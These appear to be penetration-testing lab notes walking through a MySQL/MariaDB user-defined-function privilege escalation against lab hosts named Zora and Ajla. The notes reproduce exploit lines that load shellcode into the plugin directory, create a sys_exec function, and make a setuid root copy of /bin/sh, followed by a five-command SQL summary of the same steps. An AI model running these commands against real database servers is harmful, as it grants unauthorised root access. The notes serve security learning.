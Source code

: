 ```bash
113 os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp
/bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
114
115 print "Trying to spawn a root shell..."
116 pty.spawn("/tmp/sh");
```

-    The first thing we notice is a** shellcode variable defined on lines 40-45**.

-    The SQL query at line 71 obtains the plugin directory (remember this is the variable that we found was not standard on Zora).

-    Next, on line 92, the code dumps the shellcode binary content into a file within the plugin directory.

-    Line 101 creates a function named sys\_exec leveraging the uploaded binary file.

   - Finally, the script checks if the function was successfully created on line 104 and if this is the case, the function is executed on line 113.  
  
- Reading a bit more about the MySQL CREATE FUNCTION syntax 732 suggeststhat the binary content of the shellcode variable is supposed to be a shared library that implements and exports the function(s) we want to create within the database.  
  
- Essentially, this entire script is only running five commands. If we trim down the code to its essentialMySQL commands, we obtain the following:

```sql
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

-    **we already have an interactive MariaDB shell**, **we could theoretically run these commands directly in the MariaDB shell against Zora**.

- ** we want to make sure we understand what we are about to execute before proceeding**.

> refer [[shell code | how shell code works]]

## Deeper Enumeration of the Web Application Server

### Summary
- doesnot find any credentials in mariadb
- attempt to exploit kernel
- from searchspolit find some vulnerabilities to exploit.
---
---

- During this round of enumeration, our goal is to find something that **will give us higher levels of access to Zora’s MariaDB service.**

-   While we could continue **trying to enumerate Ajla with our current user, www-data, we believe that a higher level of permissions would be very helpful. **
